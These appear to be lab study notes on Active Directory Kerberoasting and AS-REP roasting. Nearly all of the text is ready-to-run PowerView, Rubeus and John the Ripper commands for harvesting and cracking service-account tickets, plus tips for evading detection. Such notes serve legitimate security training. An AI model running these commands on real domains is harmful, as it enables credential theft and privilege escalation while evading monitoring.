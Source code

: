 - All we need is valid domain user, no special privileges required. All we need is SPN should not be null and you must be normal domain user and it will provide you TGS. 
- Offline cracking of service account passwords.
- The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
- Because (non-machine) service account passwords are not frequently changed, this has become a very popular attack!

- Find user accounts used as Service accounts
```
# ActiveDirectory module

Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# PowerView
Get-DomainUser -SPN
```

- Use Rubeus to list Kerberoast stats
```
Rubeus.exe kerberoast /stats
```
- Use Rubeus to request a TGS
```
Rubeus.exe kerberoast /user:svcadmin /simple

# if AES is enable, requesting rc4 will be anomaly
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec 
```
- To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4_HMAC
```
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
```
- Kerberoast all possible accounts (don't do it on prod environment you will get caught. Do it one user at a time)
```
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

- Crack ticket using John the Ripper
```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```


## Priv Esc - Targeted Kerberoasting - AS-REPs
- If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.
- With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.
- Enumerating accounts with Kerberos Preauth disabled
```
# Using PowerView:
Get-DomainUser -PreauthNotRequired -Verbose

# Using ActiveDirectory module:
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

- Force disable Kerberos Preauth:
```
- Let's enumerate the permissions for RDPUsers on ACLs using PowerView:
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose

Get-DomainUser -PreauthNotRequired -Verbose
```

- Request encrypted AS-REP for offline brute-force.
```
C:\AD\Tools\Rubeus.exe asreproast /user:VPN1user /outfile:C:\AD\Tools\asrephashes.txt
```
- We can use John The Ripper to brute-force the hashes offline
```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
```

## Priv Esc - Targeted Kerberoasting - Set SPN
- With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain).
- We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".
- For Example, Let's enumerate the permissions for RDPUsers on ACLs using PowerView:
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```
- Using Powerview, see if the user already has a SPN:
```
Get-DomainUser -Identity supportuser | select serviceprincipalname
```
- Using ActiveDirectory module:
```
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```
- Set a SPN for the user (must be unique for the forest)
```
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}

# Using ActiveDirectory module:

Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'}
```
 - Kerberoast the user
```
Rubeus.exe kerberoast /outfile:targetedhashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```
